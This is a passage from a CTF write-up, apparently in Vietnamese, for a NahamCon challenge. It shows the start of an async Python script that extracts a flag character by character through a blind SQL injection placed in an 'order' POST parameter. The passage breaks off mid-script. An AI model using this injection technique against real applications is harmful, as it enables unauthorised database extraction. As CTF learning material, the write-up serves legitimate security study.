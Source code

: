 ![Untitled](writeup_media/Untitled%2018.png)

## Cách 2: dùng Python

```python
import asyncio
import time

import aiohttp
import string

URL = 'http://challenge.nahamcon.com:31140'

AVAIL_CHAR = string.ascii_lowercase + '{}_'

async def post(s: aiohttp.ClientSession, pos, char):
    """
    Send a POST request
    :param s: request session
    :param pos: position to check
    :param char: character to check
    :return: response's body in bytes
    """
    try:
        data = {
            'search': 'a',
            'order': f'(SELECT CASE WHEN (SELECT HEX(SUBSTR(flag, {pos}, 1)) FROM flag) = HEX(\'{char}\') THEN atomic_number ELSE name END)'
        }
        async with s.post(url=URL, data=data) as res:
            return await res.read()

    except Exception as e:
        print(f"Unable to POST due to {e}")
        return None

async def post_proc(s: aiohttp.ClientSession, pos, char):
```